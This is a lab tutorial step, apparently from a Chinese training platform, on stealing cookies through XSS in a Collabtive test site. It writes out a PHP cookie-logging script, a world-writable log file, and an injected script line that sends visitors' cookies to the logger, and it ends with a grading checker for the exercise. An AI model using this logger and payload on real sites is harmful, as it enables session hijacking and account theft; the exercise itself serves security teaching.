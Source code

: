 ```
sudo vim hack.php
```
代码如下：

```
<?php
$cookie = $_GET['c'];
$log = fopen("cookie.txt","a");
fwrite($log,$cookie ."\n");
fclose($log);
?>
```

上面是获取cookie的代码，同时我们需要一个文件来接受cookie；在与hack.php文件同目录下新建一个cookie.txt用来接收cookie值；而且这个文件需要有写入权限；
```
shiyanlou@5a2e74121d80:/var/www/XSS/Collabtive$ touch cookie.txt
shiyanlou@5a2e74121d80:/var/www/XSS/Collabtive$ sudo chmod 777 cookie.txt
```

然后我们在 `manageuser.php` 页面新增这样的语句，当用户访问这个页面时，用户就会把cookie发送到攻击者的手里：

![3.3-1](https://doc.shiyanlou.com/document-uid600404labid882timestamp1524800674629.png/wm)

代码内容如下：
```
echo "<script>document.write('<img src=http://www.xsslabcollabtive.com/hack.php?c=' + escape(document.cookie) + '>');</script>";
```

受害者访问 www.xsslabcollabtive.com/manageuser.php 页面：

![3.3-2](https://dn-anything-about-doc.qbox.me/userid9094labid882time1429159692468?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

这个时候，攻击者在cookie.txt文件里面就获取了受害者的Cookie：

![3.3-3](https://doc.shiyanlou.com/document-uid600404labid882timestamp1524810266173.png/wm)

```checker
- name: check hack.php
  script: |
    #!/bin/bash
    file_name="/var/www/XSS/Collabtive/hack.php"
    ls $file_name
    grep cookie $file_name
  error: hack.php不存在或者文件内容不对
- name: check cookie.txt
  script: |
    #!/bin/bash
    ls /var/www/XSS/Collabtive/cookie.txt
  error: 指定目录下不存在 cookie.txt
- name: check cookie.txt priv
  script: |
    #!/bin/bash
    stat -c %a /var/www/XSS/Collabtive/cookie.txt|grep 777
  error: cookie.txt 权限配置不对
- name: check manageruser.php content
  script: |
    #!/bin/bash
    grep "hack.php" /var/www/XSS/Collabtive/manageuser.php
  error: manageusr.php 配置不对
```
